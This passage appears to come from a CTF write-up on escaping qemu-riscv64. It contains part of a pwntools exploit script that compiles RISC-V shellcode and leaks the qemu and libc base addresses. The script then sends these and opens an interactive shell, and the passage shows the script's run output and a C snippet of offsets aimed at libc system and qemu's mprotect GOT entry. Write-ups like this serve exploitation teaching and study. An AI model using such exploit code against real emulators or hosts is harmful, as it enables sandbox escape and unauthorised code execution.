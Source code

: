 ```python
    "syscall:\\n"
    "mv a7, a0\\n"
    "mv a0, a1\\n"
    "mv a1, a2\\n"
    "mv a2, a3\\n"
    "ecall\\n"
    "ret\\n"
);
'''

f = open("shellcode.c","w");f.write(shellcode);f.close()
os.system("riscv64-linux-gnu-gcc -e main -nostdlib  -Os -static shellcode.c -o shellcode")
os.system("riscv64-linux-gnu-objcopy --dump-section .text=sc.bin shellcode")

io =  process(["qemu-riscv64","./test"])
data = io.recvuntil("libc-")
data = str(data).replace("\\n","\n").splitlines()
io.recvuntil("vdso")
io.recv(4096)
for i in data:
    if "00000000" not  in i: continue
    if "qemu-riscv64"  in i: qemu_base = int(i[0:12],16)
    if "gnu/libc-"     in i: libc_base = int(i[0:12],16)

log.success(hex(qemu_base))
log.success(hex(libc_base))

io.send(p64(qemu_base)+p64(libc_base))
io.interactive()
```


```
$ python3 exp.py
/tmp/ccAP4WX1.s: Assembler messages:
/tmp/ccAP4WX1.s:112: Warning: ignoring changed section attributes for .text
[+] Starting local process '/usr/local/bin/qemu-riscv64': pid 101150
[+] 0x55c35e4ea000
[+] 0x7f657f6f7000
[*] Switching to interactive mode
$ ls
core  exp.py  sc.bin  shellcode  shellcode.c  test  test.c
```

#### exp

用题目给的qemu和libc修改地址偏移：

```c
long long * libc_system   =   libc_base + 0x04f550/8;
long long * mprotect_got  =   qemu_base + 0x6a3200/8;
long long * ro_memory     =   qemu_base + 0x668000/8;
```

